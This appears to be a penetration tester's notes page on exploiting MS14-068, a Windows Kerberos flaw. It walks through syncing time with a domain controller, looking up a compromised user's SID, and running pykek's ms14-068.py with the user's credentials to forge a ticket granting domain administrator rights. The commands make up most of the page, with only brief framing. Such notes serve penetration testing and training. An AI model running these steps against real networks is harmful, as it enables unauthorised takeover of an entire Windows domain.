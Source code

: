 # [MS14-068](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/MS14-068)

> A vulnerability in the Microsoft Kerberos implementation present in Windows Server 2003, 2008, 2008 R2, 2012, and 2012 R2. The vulnerability allows an attacker to forge the PAC within a TGT and and receive a service ticket that grants the principal arbitrary privileges, including those of a domain administrator.

---

## Exploit MS14-068 to Elevate a Compromised Domain User to a Domain Administrator from Linux

Begin by ensuring the attacking Linux machine's time and date are synchronized with that of the target domain's domain controller.

```bash
$ sudo rdate -n $DOMAIN_CONTROLLER_FQDN_OR_IP
```

To exploit MS14-068, the following items are needed:

1. Fully qualified domain name (i.e., `marvel.test`)
2. Fully qualified domain name of the domain controller (i.e., `dc01.marvel.test`)
3. The SID of the compromised domain user account who you will be elevating the privileges of
	- [[lookupsid|impacket-lookupsid]]
4. Use [pykek](https://github.com/mubix/pykek) to craft a TGT whose PAC specifies the compromised domain user as a domain administrator

```bash
$ cd pykek
$ sudo python2.7 ms14-068.py -u $USERNAME@$DOMAIN -s $SID -p $PASSWORD -d $DOMAIN_CONTROLLER_FQDN
```

- `$USERNAME` is the SAM account name of the compromised domain user account who you are elevating the privileges of
- `$DOMAIN` is the FQDN of the domain (i.e., `marvel.test`)
- `$SID` is the SID of the compromised domain user account who you are elevating the privileges of
- `$DOMAIN_CONTROLLER_FQDN` the FQDN fo the domain controller (i.e., `dc01.marvel.test`)

Highly recommend ensuring both `$DOMAIN` and `$DOMAIN_CONTROLLER_FQDN` are mapped to the target domain controller in the local DNS resolver.

5. Once you've successfully crafted the TGT, [[using-kerberos-tickets|import and use it]].

---

## References

[TrustedSec's Excellent Writeup](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/)
